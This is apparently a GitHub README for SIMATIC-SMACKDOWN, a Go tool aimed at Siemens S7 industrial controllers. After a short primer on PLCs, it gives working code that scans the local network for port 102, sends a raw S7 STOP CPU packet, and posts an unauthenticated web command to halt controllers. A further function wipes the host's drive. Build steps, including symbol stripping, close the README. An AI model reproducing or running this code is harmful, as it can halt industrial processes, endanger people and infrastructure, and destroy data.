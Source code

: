 # :wrestling: SIMATIC-SMACKDOWN:

A simple and compact program targeting SIMATIC S7 Programmable Logic Controllers (PLCs) written in Go. Allowing for cross-compilation to target multiple operating systems out of the box, SIMATIC-SMACKDOWN enumerates networks for S7 devices before launching a distributed attack to STOP PLC CPUs.

<p align="center">
  <img width="700" height="450" alt="PXCM" src="https://user-images.githubusercontent.com/72598486/204815532-a523b140-0d63-404d-b3bf-25443b6fac7b.jpg">
</p>

# What are Siemens S7 Programmable Logic Controllers?

SIMATIC is a series of programmable logic controller and automation systems developed by Siemens. The series has gone through four major generations, the latest being the SIMATIC S7 generation. These PLCs are small industrial computers with modular components designed to automate customized control processes. To understand a PLC system, it is best to breakdown the system into two primary parts: the **central processing unit (CPU)** and the **input/output (I/O)** interface system.


![image](https://user-images.githubusercontent.com/72598486/204818575-0b552158-01e0-47fe-9c44-0a07faca07e1.png)


The **central processing unit** contains memory and a communication system needed to instruct the PLC on how to perform. Hence, the reason why CPUs are the “brain” of programmable logic controllers. This is also where data processing and diagnostics take place. The communication system allows the CPU to communicate with other devices such as I/O devices, programming devices, and other PLC systems.

**Input/output (I/O)** modules relay the necessary information to the CPU and communicate the required task in a continuous loop. Input and output devices can either be digital or analog form: digital devices are finite values represented in values of 1 or 0, analog devices are infinite values, and measure ranges of currents or voltages. Inputs or providers are switches, sensors, and smart devices in analog or digital forms. Outputs can be motor starters, lights, valves, and smart devices.

The automation process can be seen in the image below:

![image](https://user-images.githubusercontent.com/72598486/204818074-ac112340-df1f-451f-b11d-7a4bd7e3f149.png)

But what if we could send a signal to turn off the CPU so that communication between the device and the operator could not occur?

# How SIMATIC-SMACKDOWN Works:

SIMATIC-SMACKDOWN operates in three phases: interface enumeration, PLC scanning, and STOP PLC CPU.

The first phase of the program enumerates local network interfaces, gathering information about the host's environment:

```go
	// Get Private Interface
    for _, address := range addrs {
        // only add non loopback IPv4 addresses
        ipnet, ok := address.(*net.IPNet)
        if ok && ipnet.IP.To4() != nil && !ipnet.IP.IsLoopback() {
			var ip_addr = ipnet.IP
            return ip_addr.String()
        }
	}
	return ""
  ```
  
After determining the private IP address, the program enumerates the subnet for devices listening on TCP 102, which is defined as ISO-TSAP Transport Service Access Point) Class 0 protocol and utilized by Siemens S7Comm communications.

```go
	// Connect to device ports
	for i := range ip_list {
    	target := ip_list[i] + ":102"
    	conn, err := net.DialTimeout("tcp", target, 1 * time.Second)
    	if err != nil {
			continue
		} else {
			scanned_ips = append(scanned_ips, ip_list[i])
		}
		conn.Close()
	}
	return scanned_ips
```
Once the program identifies the PLCs, SIMATIC-SMACKDOWN launches a STOP CPU command via raw data to the controller. If the device is not password protected, it will turn off the PLC's CPU and stop operations. This functionality has only been tested on an S7-300 and S7-1200.

```go
	// Connect to device ports
	stop := "\x03\x00\x00\x21\x02\xf0\x80\x32\x01\x00\x00\x06\x00\x00\x10\x00\x00\x29\x00\x00\x00\x00\x00\x09\x50\x5f\x50\x52\x4f\x47\x52\x41\x4d"
	for i := range scanned_ips {
    	target := scanned_ips[i] + ":102"
    	conn, err := net.Dial("tcp", target)
    	if err != nil {
			continue
		} else {
			_, err = conn.Write([]byte(stop))
		}
		conn.Close()
	}
```

After sending the termination command to the controller, the program sends an additional STOP CPU via the web interface. If the device is configured to "allow Everybody to change operating mode (Start/Stop)" in the webserver user management, this unauthenticated access will stop controller operations. 

```go
	for i := range scanned_ips {
		client := &http.Client{}
		var data = strings.NewReader(`Run=1&PriNav=Stop`)
		req, err := http.NewRequest("POST", "http://"+scanned_ips[i]+"/CPUCommands", data)
		if err != nil {
			continue
		}
		req.Header.Set("Host", scanned_ips[i])
		req.Header.Set("Content-Length", "19")
		req.Header.Set("Cache-Control", "max-age=0")
		req.Header.Set("Upgrade-Insecure-Requests", "1")
		req.Header.Set("Origin", "http://"+scanned_ips[i])
		req.Header.Set("Content-Type", "application/x-www-form-urlencoded")
		req.Header.Set("User-Agent", "Mozilla/5.0. (Windows NT 10.0; Win64; x64) AppleWebkit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36")
		req.Header.Set("Accept", "text/html, application /xhmtl+xml, application/xml; q=0.9,image/avif, image/webp, image/apng,*/ - *; q=0.8, application/signed-exchange; v=b3; q=0.9")
		req.Header.Set("Referer", "http://"+scanned_ips[i]+"/Portal/Portal.mwsl?PriNav=Start")
		req.Header.Set("Accept-Encoding", "gzip, deflate")
		req.Header.Set("Accept-Language", "en-US, en; q=0.9")
		req.Header.Set("Connection", "close")
		req.Header.Set("Cookie", "siemens_automation_no_intro=TRUE")
		resp, err := client.Do(req)
```
The PLC STOP commands are demonstrated in the following network capture: 

![SIMATIC](https://user-images.githubusercontent.com/72598486/207712579-9b13ea24-a1b5-4a5c-a582-380d37e34d35.png)

The program proceeds to wipe the filesystem of the device, deleting files accessible and owned by the current user. The damage from this function is dependent on administrative privileges and security context in which the program is run. Running the program as root or administrator will devastate the device.

```go
func KillWindows() {
	// If current user does not have administrative privileges, removes files owned by current user
	err := os.RemoveAll("C:\\")
	if err != nil {
		return			
	}
}
```

# Install: 

Download the repository:

```
$ mkdir SIMATIC-SMACKDOWN
$ cd SIMATIC-SMACKDOWN/
$ sudo git clone https://github.com/RoseSecurity/SIMATIC-SMACKDOWN.git
```

Install Go by finding the appropriate package for your OS at ```https://go.dev/dl/```. You can also download the installer file via ```wget```:

```
$ # wget https://dl.google.com/go/go1.13.5.linux-amd64.tar.gz
# Extract tarball and profit
$ sudo tar -C /usr/local/ -xzf go1.13.5.linux-amd64.tar.gz
```

Or Ubuntu install using ```apt```

``` 
$ sudo apt install golang-go
```

Build Binaries:

```
# Compile for Windows AMD64
$ env GOOS=windows GOARCH=amd64 go build simatic_smackdown.go

# NOTE: The previously compiled binary will contain symbol table and debugging information. To avoid this, use the following:
$ env GOOS=windows GOARCH=amd64 go build -ldflags "-s -w" simatic_smackdown.go

# Compile for Linux AMD64
$ env GOOS=linux GOARCH=amd64 go build simatic_smackdown.go
```
